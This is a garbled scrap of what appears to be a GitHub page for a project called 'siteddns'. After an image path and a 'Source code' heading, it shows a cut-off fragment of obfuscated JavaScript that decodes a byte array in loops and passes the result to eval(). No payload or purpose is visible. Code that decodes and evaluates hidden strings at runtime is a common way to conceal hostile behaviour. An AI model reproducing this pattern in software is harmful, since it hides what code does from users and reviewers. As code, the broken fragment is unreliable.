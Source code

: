  # siteddns
=2){pt[rt]=(~((pt[rt]+pt[rt-1])&0xff))&0xff;rt--;}";eval(rt);rt="rt=53;do{pt[rt]=((((((pt[rt]+245)&0xff)>>1)|((((pt[rt]+245)&0xff)
